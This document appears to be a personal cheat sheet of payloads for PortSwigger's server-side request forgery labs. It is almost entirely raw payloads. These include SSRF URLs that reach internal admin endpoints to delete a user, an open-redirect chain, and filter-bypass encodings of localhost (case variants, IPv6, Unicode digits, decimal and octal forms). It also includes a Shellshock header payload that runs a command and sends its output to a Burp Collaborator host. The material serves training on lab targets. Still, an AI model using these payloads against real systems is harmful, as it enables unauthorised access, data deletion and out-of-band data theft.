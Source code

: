 [URL validation bypass cheat sheet](https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet)

```
port: 6566, 8080

http://localhost/admin/delete?username=carlos

http://192.168.0.1:8080/admin

http://127.1/admin
http://127.0.0.1/

/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos

shellshock: Referer header, User-Agent header 
() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN

http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos

out-of-band-detection: Referer header
```

```
127.0.0.1
127.1
```  

```
localhost
Localhost
LocalHost
lOcAlhOsT
LOcalHOSt
```  

```
[::]
[0000::1]
[0:0:0:0:0:ffff:127.0.0.1]
```

```
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821
```

```
2130706433
3232235521
3232235777
2130706433
```  

```
017700000001
```  